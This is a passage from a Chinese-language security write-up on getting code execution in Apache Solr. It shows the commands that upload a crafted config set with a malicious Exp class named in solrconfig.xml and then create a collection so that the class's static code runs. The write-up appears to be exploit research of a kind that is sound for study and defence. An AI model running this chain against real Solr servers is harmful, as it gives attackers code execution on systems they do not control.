 ```bash
<valueSourceParser name="myfunc" class="zk_backup_0.configs.conf1.Exp" />
```

[![](assets/1708941329-f3bf1c7544e759ba5265a094e2dbba6c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240210224957-a8f4db82-c823-1.png)

打包上传，命名为`conf2`

```bash
rm Exp.class conf1.zip
zip -q -r conf2.zip *
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @conf2.zip "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=conf2"
```

[![](assets/1708941329-60479253e88b2f7883d6c0effdde8ddc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240210225006-adf663d0-c823-1.png)

### 用`conf2`创建`collection2`

```bash
curl "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=collection2&numShards=1&replicationFactor=1&wt=json&collection.configName=conf2"
```

Collection 创建过程中会将`SOLR_HOME/collection2_shard1_replica_n1/lib/`下的 jar 包或者一级子目录作为 URLClassLoader 的 urls。并且会加载`solrconfig.xml`中配置的类，从而导致`zk_backup_0.configs.conf1.Exp`类的静态代码被执行

[![](assets/1708941329-58145994ecb5475957f7e89ce24e3e7a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240210225019-b5d0bd94-c823-1.png)

[![](assets/1708941329-5cb34ad6a2bfdedbb227bf002d52ef32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240210225025-b922953a-c823-1.png)

